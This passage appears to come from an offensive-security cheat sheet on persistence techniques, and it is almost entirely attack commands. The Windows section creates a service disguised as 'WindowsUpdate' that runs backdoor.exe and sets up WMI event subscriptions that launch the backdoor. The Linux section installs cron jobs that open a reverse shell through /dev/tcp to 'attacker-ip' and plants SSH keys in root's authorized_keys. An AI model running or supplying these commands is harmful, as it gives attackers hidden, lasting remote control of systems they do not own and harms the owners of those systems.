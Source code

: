 #### Service Creation
```cmd
# Create service
sc create "WindowsUpdate" binpath="C:\backdoor.exe" start=auto
sc description "WindowsUpdate" "Critical Windows Update Service"

# Start service
sc start "WindowsUpdate"

# Service with dependencies
sc create "BackdoorService" binpath="C:\backdoor.exe" start=auto depend="Tcpip/Dhcp"
```

#### WMI Event Subscriptions
```cmd
# PowerShell WMI persistence
powershell.exe -c "Register-WmiEvent -Query 'SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2' -Action { Start-Process 'C:\backdoor.exe' }"

# WMI permanent event consumer (advanced)
wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="BotFilter47", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System'"
```

### Linux Persistence

#### Cron Jobs
```bash
# User crontab
crontab -e
# Add: */5 * * * * /bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# System cron directories
echo "*/5 * * * * root /bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1" >> /etc/crontab
echo "#!/bin/bash" > /etc/cron.hourly/backdoor
echo "/bin/bash -i >& /dev/tcp/attacker-ip/4444 0>&1" >> /etc/cron.hourly/backdoor
chmod +x /etc/cron.hourly/backdoor
```

#### SSH Keys
```bash
# Add SSH key for persistence
mkdir -p ~/.ssh
echo 'ssh-rsa AAAAB3...' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Root SSH key
mkdir -p /root/.ssh  
echo 'ssh-rsa AAAAB3...' >> /root/.ssh/authorized_keys
```
